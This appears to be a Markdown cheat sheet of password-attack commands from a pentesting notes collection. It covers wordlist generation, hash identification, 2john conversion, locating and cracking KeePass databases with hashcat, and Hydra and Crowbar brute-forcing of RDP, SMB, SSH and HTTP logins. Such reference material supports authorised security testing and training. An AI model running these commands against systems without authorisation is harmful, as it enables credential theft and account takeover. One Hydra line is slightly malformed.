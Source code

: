 # Password Attacks
## Generating Wordlists
### Cewl - Custom Word List generator

-> generating wordlist based on information from a website
```
cewl <domain> -w wordlist.txt
```

### Crunch - Wordlist Generator
-> Character Translation  
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`  

-> Usage
```
./crunch <min-len> <max-len> [charset]
```

-> basic examples
```
crunch 9 9 -t ,@@@@^%%%
```
```
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### John Mutation
-> Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
-> basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```
https://www.openwall.com/john/doc/RULES.shtml

## Cracking Password
### Identifying Hash Type
```
hashid <hash>
```
https://www.tunnelsup.com/hash-analyzer/
https://hashes.com/en/tools/hash_identifier

### Hashing different file types for cracking with 2john
- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c)  

### Password Manager
-> Search KeePass database files
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

-> Hashing the .kdbx file
```
keepass2john Database.kdbx > keepass.hash   
```

-> Finding Hash-Mode ID of hashcat
```
hashcat --help | grep -i "KeePass"
```

-> Cracking
```
hashcat -m 13400 keepass.hash
```

## Brute Force Attacks
### RDP Brute Force - Hydra
```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP Brute Force - Crowbar
```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB Brute Force - Hydra
```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH Brute Force - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form Brute Force - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form Brute Force - Hydra
```
hydra -l username -P password_file.txt -s port -f ip_address request_method /path
```
